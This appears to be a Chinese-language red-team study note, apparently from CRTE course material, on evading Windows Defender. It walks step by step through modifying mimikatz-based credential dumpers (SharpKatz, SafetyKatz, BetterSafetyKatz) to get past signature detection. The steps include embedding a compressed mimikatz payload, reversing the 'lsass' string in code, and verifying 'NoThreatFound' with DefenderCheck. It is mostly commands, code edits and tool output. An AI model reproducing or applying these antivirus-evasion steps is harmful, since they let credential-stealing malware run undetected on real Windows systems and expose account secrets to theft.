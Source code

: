 # AV bypass

主要思路是通过混淆（Obfuscation）和字符串操纵（String Manipulation）等技术绕过基于签名的检测

使用检查工具是：[DefenderCheck](https://github.com/t3hbb/DefenderCheck)

# 字符串操纵（String Manipulation）

## 例子1：SharpKatz.exe

使用DefenderCheck检查SharpKatz.exe

```
D:\BaiduNetdiskDownload\CRTE\Tools>DefenderCheck.exe D:\BaiduNetdiskDownload\CRTE\Tools\SharpKatz-master\SharpKatz\bin\Debug\SharpKatz.exe

OriginalFileDetectionStatus is : ThreatFound
Target file size: 235520 bytes
Analyzing...

File matched signature: "VirTool:MSIL/SharpKatz.A"

[!] Identified end of bad bytes at offset 0x1198B in the original file
File matched signature: "HackTool:Win64/Mimikatz.D"

00000000   06 70 00 28 00 08 00 00  48 00 00 00 00 0D 00 08   ·p·(····H·······
00000010   00 32 00 00 00 00 00 00  00 40 00 0A 01 00 00 00   ·2·······@······
00000020   00 00 00 00 00 00 48 00  00 00 00 0E 00 08 00 32   ······H········2
00000030   00 00 00 00 00 00 00 40  00 0A 01 00 00 00 00 00   ·······@········
00000040   00 00 00 00 48 00 00 00  00 0F 00 08 00 32 00 00   ····H········2··
00000050   00 00 00 00 00 40 00 0A  01 00 00 00 00 00 00 00   ·····@··········
00000060   00 00 48 00 00 00 00 10  00 30 00 30 40 00 00 00   ··H······0·0@···
00000070   00 2C 00 24 00 47 06 0A  07 01 00 01 00 00 00 00   ·,·$·G··········
00000080   00 08 00 00 00 B8 03 48  00 08 00 08 00 0B 01 10   ·····?·H········
00000090   00 48 06 50 21 18 00 08  00 13 41 20 00 72 06 70   ·H·P!·····A ·r·p
000000A0   00 28 00 08 00 00 48 00  00 00 00 11 00 30 00 30   ·(····H······0·0
000000B0   40 00 00 00 00 2C 00 24  00 47 06 0A 07 01 00 01   @····,·$·G······
000000C0   00 00 00 00 00 08 00 00  00 B8 03 48 00 08 00 08   ·········?·H····
000000D0   00 0B 01 10 00 8C 06 50  21 18 00 08 00 13 A1 20   ·····?·P!·····?
000000E0   00 C6 06 70 00 28 00 08  00 00 49 89 CA B8 3F 00   ·?·p·(····I?ê??·
000000F0   00 00 0F 05 C3 74 25 8B  24 43 72 64 41 FF 15 49   ····?t%?$CrdA?·I
```

教材里的方法是把整个项目的```Credentials```替换成```Credents```,然后生成exe再检查

然而操作了上面的步骤以后依然过不了wd，不知道是不是因为wd的签名更新了


## 例子2：SafetyKatz 

1. 下载最新版本的[Out-CompressedDll.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/ScriptModification/Out-CompressedDll.ps1)和mimikatz

2. 使用Out-CompressedDll.ps1操作mimikatz，导出结果到outputfilename.txt
```
PS D:\BaiduNetdiskDownload\CRTE\Tools> . .\Out-CompressedDll.ps1
PS D:\BaiduNetdiskDownload\CRTE\Tools> Out-CompressedDll D:\BaiduNetdiskDownload\CRTE\Tools\mimikatz_trunk\x64\mimikatz.exe > outputfilename.txt
PS D:\BaiduNetdiskDownload\CRTE\Tools>
```

3. 打开outputfilename.txt

4. 替换constants.cs
把```$EncodedCompressedFile```这个变量的内容

```
$EncodedCompressedFile = @'3H15fF.....s/wA='
```

复制到SafetyKatz项目的```constants.cs```这个文件里的```compressedMimikatzString```变量
```
namespace SafetyKatz
{
    public static class Constants
    {
        // compressed mimikatz.exe output from Out-CompressedDLL
        public static string compressedMimikatzString = "3H15fF.....s/wA=";
    }
}

```

5. 替换Program.cs

把outputfilename.txt下面这行代码的数字
```
$DeflatedStream.Read($UncompressedFileBytes, 0, 1234696) | Out-Null
```
替换到Program.cs的 111 和 116行

```
                Byte[] unpacked = new byte[1234696];
                ...
                ...
                stream.Read(unpacked, 0, 1234696);
```

6. 保存。生成exe。使用DefenderCheck检查

```
D:\BaiduNetdiskDownload\CRTE\Tools>DefenderCheck.exe D:\BaiduNetdiskDownload\CRTE\Tools\SafetyKatz-master\SafetyKatz\bin\Debug\SafetyKatz.exe

OriginalFileDetectionStatus is : ThreatFound
Target file size: 1569280 bytes
Analyzing...

File matched signature: "VirTool:MSIL/DumpLsass.A"

[!] Identified end of bad bytes at offset 0x17E009 in the original file
File matched signature: "VirTool:MSIL/DumpLsass.A"

00000000   76 00 30 00 52 00 70 00  65 00 4C 00 6D 00 69 00   v·0·R·p·e·L·m·i·
00000010   62 00 37 00 62 00 68 00  74 00 65 00 31 00 53 00   b·7·b·h·t·e·1·S·
00000020   56 00 6C 00 64 00 76 00  6A 00 45 00 43 00 35 00   V·l·d·v·j·E·C·5·
00000030   31 00 66 00 48 00 6D 00  6B 00 38 00 50 00 4B 00   1·f·H·m·k·8·P·K·
00000040   69 00 30 00 67 00 32 00  66 00 75 00 6B 00 63 00   i·0·g·2·f·u·k·c·
00000050   6E 00 54 00 67 00 71 00  38 00 6C 00 46 00 74 00   n·T·g·q·8·l·F·t·
00000060   72 00 4D 00 75 00 39 00  37 00 54 00 50 00 75 00   r·M·u·9·7·T·P·u·
00000070   58 00 64 00 59 00 6A 00  76 00 66 00 30 00 69 00   X·d·Y·j·v·f·0·i·
00000080   4B 00 50 00 4A 00 6F 00  61 00 49 00 41 00 79 00   K·P·J·o·a·I·A·y·
00000090   4F 00 38 00 67 00 74 00  36 00 57 00 50 00 52 00   O·8·g·t·6·W·P·R·
000000A0   41 00 71 00 30 00 30 00  5A 00 4D 00 50 00 64 00   A·q·0·0·Z·M·P·d·
000000B0   32 00 73 00 5A 00 57 00  51 00 73 00 37 00 32 00   2·s·Z·W·Q·s·7·2·
000000C0   78 00 77 00 6E 00 77 00  54 00 57 00 77 00 4D 00   x·w·n·w·T·W·w·M·
000000D0   56 00 68 00 32 00 73 00  30 00 79 00 48 00 32 00   V·h·2·s·0·y·H·2·
000000E0   56 00 69 00 7A 00 45 00  37 00 73 00 2F 00 77 00   V·i·z·E·7·s·/·w·
000000F0   41 00 3D 00 00 0B 6C 00  73 00 61 00 73 00 73 00   A·=···l·s·a·s·s·
```

看起来是有一个lsass的字符串触发了签名

7. 修改Program.cs里的
```
 Process[] processes = Process.GetProcessesByName("lsass");
```

为：
```
string str = "ssasl";
 
string reverse = str.Reverse();
Process[] processes = Process.GetProcessesByName(reverse);
```

注意还需要在当前类外面添加代码
```
 public static class Extensions
    {
        public static string Reverse(this string str)
        {
            char[] chars = str.ToCharArray();
            Array.Reverse(chars);
            return new string(chars);
        }
    }
```

保存。重新生成exe

8. 再次检查,已经可以绕过wd
```
D:\BaiduNetdiskDownload\CRTE\Tools>DefenderCheck.exe D:\BaiduNetdiskDownload\CRTE\Tools\SafetyKatz-master\SafetyKatz\bin\Debug\SafetyKatz.exe

OriginalFileDetectionStatus is : NoThreatFound
[+] No threat found in submitted file!

```

## 例子3，BetterSafetyKatz

教材上的方法是：
1. 把mimikatz的zip转化成base64
```
PS E:\BaiduNetdiskDownload\CRTE\Tools> $filename = "E:\BaiduNetdiskDownload\CRTE\Tools\mimikatz_trunk.zip"
PS E:\BaiduNetdiskDownload\CRTE\Tools> [Convert]::ToBase64String([io.file]::ReadAllBytes($filename)) > o.txt
```

2. 在program.cs加一个变量

```
string base64value = "<上面mimikatz的base64>"
```

3. 注释program.cs这一段

```
  //Is it a URI?
                // if (latestPath.StartsWith("http"))
                // {
                //     //Download
                //     zipStream = webClient.DownloadData(latestPath);
                // }
                // else
                // {
                //     //Read file from path
                //     zipStream = File.ReadAllBytes(latestPath);
                // }
```

底下再加一行
```
zipStream = Convert.FromBase64String(base64value);
```

重新生成

但是单凭上面几步不能过现在的wd

## 使用[ConfuserEx](https://github.com/mkaring/ConfuserEx)混淆Rubeus.exe